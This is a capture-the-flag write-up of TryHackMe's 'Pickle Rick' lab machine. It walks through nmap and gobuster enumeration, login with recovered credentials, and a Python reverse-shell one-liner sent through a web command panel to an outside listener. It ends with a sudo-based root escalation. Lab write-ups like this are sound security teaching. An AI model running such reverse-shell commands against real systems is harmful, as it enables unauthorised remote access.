 ```yaml
---
title: "TryHackMe - Pickle Rick"
author: Nasrallah
description: "Writeup of easy machine Pickle Rick"
date: 2021-12-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, web, reverse-shell, python, gobuster]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

Hello l33ts, I hope you are doing well. Today we are going to look at [Pickle Rick](https://tryhackme.com/room/picklerick) from TryHackMe.

# **Description**

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

# **Enumeration**

As usual, let's start our nmap scan using this commad : `sudo nmap -sV -sC {target_IP} -oN nmap.scan`

-sV - find the version of all the service running on the target

-sC - run all the default scripts

-oN - save the output in a file called nmap

## nmap

```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 10:06 EST
Nmap scan report for 10.10.237.232
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 85:92:6a:04:0e:1c:53:94:c6:8b:84:5f:c3:a3:fc:41 (RSA)
|   256 c1:9b:c3:79:38:ee:e2:ed:fc:85:57:4f:ae:ef:2a:12 (ECDSA)
|_  256 81:d8:73:fe:2d:c0:ce:79:43:bc:56:e7:c9:64:aa:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.00 seconds
```

We see that there is 2 open ports:
- 22(SSH)
- 80(HTTP)

Let's check the web server. Oh no, it seems that Rick is in a problem, anyway, let's check the page source code.

![Sourcecode](/assets/img/tryhackme/pickle/source.png)

Nice, we have found a username,Let's now run Gobuster directory scan using the following command: `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u {target_IP} -x php,txt`

- -x: is to tell gobuster to search for extensions(php, txt)

## Gobuster

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.237.232
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/12/24 10:19:06 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.hta.txt             (Status: 403) [Size: 296]
/.hta.php             (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.237.232/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                    
/index.html           (Status: 200) [Size: 1062]                                  
/login.php            (Status: 200) [Size: 882]                                   
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]                                    
/robots.txt           (Status: 200) [Size: 17]                                    
/server-status        (Status: 403) [Size: 301]                                   

===============================================================
```

Gobuster has found some good stuff, we have a login page and robots.txt file, let's check the latter.

That's a weird string we have found, let's save it and go check to login page.
We have the username and the weird string we found in robots.txt, let's supply them and see what happens.

Great, we are in, and it seems we have a command panel where we can execute code on the target, let's try to get a reverse shell with that.

# **Foothold**

After checking that python3 is installed on the target machine with `which python3` command, i executed the following command to get a reverse shell on my machine after setting up a listener of cource: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`

> You need to change the ip address in the command!

```terminal
$ nc -lnvp 9001                                                                                                                                      130 ⨯
listening on [any] 9001 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.237.232] 58428
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-237-232:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-237-232:/var/www/html$ ^Z #pressed ctrl+z
zsh: suspended  nc -lnvp 9001

$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001 #pressed enter

www-data@ip-10-10-237-232:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt    index.html  portal.php
assets                       denied.php  login.php   robots.txt
www-data@ip-10-10-237-232:/var/www/html$
```

The commands i executed are for getting a stable shell.

# **Privilege Escalation**

When we run `sudo -l ` we see that we can run whatever we want!

```terminal
www-data@ip-10-10-237-232:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-237-232.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-237-232.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-237-232:/home/rick$
```

This made our task much easier. With that, we can upgrade directly to root.

```terminal
www-data@ip-10-10-237-232:/home/rick$ sudo su
root@ip-10-10-237-232:/home/rick# whoami
root
root@ip-10-10-237-232:/home/rick#
```

And just like that we have rooted Pickle Rick machine, hope you guys enjoyed it. See you in the next Hack.

